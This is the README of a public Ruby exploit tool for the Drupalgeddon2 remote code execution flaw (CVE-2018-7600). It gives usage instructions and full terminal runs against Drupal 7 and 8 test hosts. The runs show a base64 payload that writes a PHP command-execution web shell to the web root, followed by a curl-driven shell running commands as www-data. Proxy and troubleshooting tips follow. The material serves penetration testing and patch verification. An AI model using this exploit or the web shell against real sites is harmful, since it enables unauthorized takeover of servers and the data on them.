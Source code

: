 # CVE-2018-7600 | Drupal < 7.58 / 8.x < 8.3.9 / 8.4.x < 8.4.6 / 8.5.x < 8.5.1 - 'Drupalgeddon2' RCE (SA-CORE-2018-002)

[Drupalggedon2 ~ https://github.com/dreadlocked/Drupalgeddon2/](https://github.com/dreadlocked/Drupalgeddon2/) _([https://www.drupal.org/sa-core-2018-002](https://www.drupal.org/sa-core-2018-002))_

Supports:
- Drupal **< 8.3.9** / **< 8.4.6** / **< 8.5.1** ~ `user/register` URL, attacking `account/mail` & `#post_render` parameter, using PHP's `exec` function
- Drupal **< 7.58** ~ `user/password` URL, attacking `triggering_element_name` form & `#post_render` parameter, using PHP's `passthru` function
- With or without a writeable web root or sub-directories

The `user/register` method was chosen for Drupal v8.x, as it will return `HTTP 200`, and render the output in the `data` JSON response _(un-comment the code for `timezone`/`#lazy_builder` method, which will return `HTTP 500` & blind!)_ _([More Information](https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708))_.

Authors:
- [Hans Topo](https://github.com/dreadlocked)  _([@\_dreadlocked](https://twitter.com/_dreadlocked))_
- [g0tmi1k](https://blog.g0tmi1k.com/) _([@g0tmi1k](https://twitter.com/g0tmi1k))_


- - -


## Usage:

```bash
$ ruby drupalgeddon2.rb
Usage: ruby drupalggedon2.rb <target>
       ruby drupalgeddon2.rb https://example.com
```


### Drupal v8.x Example

_Supported: v8.x < v8.3.9 / v8.4.x < v8.4.6 / v8.5.x < v8.5.1_

```bash
$ ./drupalgeddon2.rb http://localhost/drupal-8/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://localhost/drupal-8/
--------------------------------------------------------------------------------
[!] MISSING: http://localhost/drupal-8/CHANGELOG.txt (404)
[+] Found  : http://localhost/drupal-8/core/CHANGELOG.txt (200)
[+] Drupal!: 8.4.5
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo MEWQTESC
[+] Result : MEWQTESC<span class="ajax-new-content"></span>
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }<span class="ajax-new-content"></span>
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://localhost/drupal-8/s.php' -d 'c=whoami'
ubuntu140045x64-drupal>> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ubuntu140045x64-drupal>>
ubuntu140045x64-drupal>> uname -a
Linux ubuntu140045x64-drupal 3.13.0-144-generic #193-Ubuntu SMP Thu Mar 15 17:03:53 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
ubuntu140045x64-drupal>>
```


### Drupal v7.x Example

_Supported: < v7.58_

```
$ ./drupalgeddon2.rb http://localhost/drupal-7/
[*] --==[::#Drupalggedon2::]==--
--------------------------------------------------------------------------------
[*] Target : http://localhost/drupal-7/
--------------------------------------------------------------------------------
[+] Found  : http://localhost/drupal-7/CHANGELOG.txt (200)
[+] Drupal!: 7.55
--------------------------------------------------------------------------------
[*] Testing: Code Execution
[*] Payload: echo FLUBCTEZ
[+] Result : FLUBCTEZ
[{"command":"settings","settings":{"basePath":"\/drupal-7.55\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"bSQXTLxvuTsh1M_vGKQog3Rp7ZAA-o8-PBVy0RpC5NY"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/drupal-7.55\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"bSQXTLxvuTsh1M_vGKQog3Rp7ZAA-o8-PBVy0RpC5NY"}}}]
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: File Write To Web Root (./)
[*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }[{"command":"settings","settings":{"basePath":"\/drupal-7.55\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"5RvOux65dtisVX7T9EwnBxXhyvSdeNhX0njFg3ha_rc"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/drupal-7.55\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"5RvOux65dtisVX7T9EwnBxXhyvSdeNhX0njFg3ha_rc"}}}]
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[*] Fake shell:   curl 'http://localhost/drupal-7/s.php' -d 'c=whoami'
ubuntu140045x64-drupal>> uptime
 14:52:33 up 4 days,  3:35,  1 user,  load average: 0.00, 0.01, 0.05
ubuntu140045x64-drupal>>
ubuntu140045x64-drupal>> whoami
www-data
ubuntu140045x64-drupal>>
```


#### File-Less Method

If you do not want to even try and write a PHP web shell to the web server, edit the file as shown _(it will fall back if it can't find a writeable location anyway)_:

```ruby
writeshell = true
```


#### Proxy Support

For proxy support _(e.g. Burp)_, edit the file, replacing with your values. Example:

```ruby
proxy_addr = '192.168.0.130'
proxy_port = 8080
```


- - -


## Troubleshooting:

- Sometimes, websites may redirect to another path where Drupal exists (such as `30x` responses). Solution: Make sure you are using the correct Drupal path.
- Drupal v7.x - If `/user/password` form is disabled, maybe you should find another form, but remember to change the exploit. Solution: `form_id` parameter will change depending on the form used to exploit the vulnerability.


- - -


## Links:

- **Write up & Research** ~ https://research.checkpoint.com/uncovering-drupalgeddon-2/
- Drupal SA-CORE-2018-002 Advisory ~ https://www.drupal.org/sa-core-2018-002
- cURL commands ~ https://gist.github.com/g0tmi1k/7476eec3f32278adc07039c3e5473708
- CVE ~ https://nvd.nist.gov/vuln/detail/CVE-2018-7600
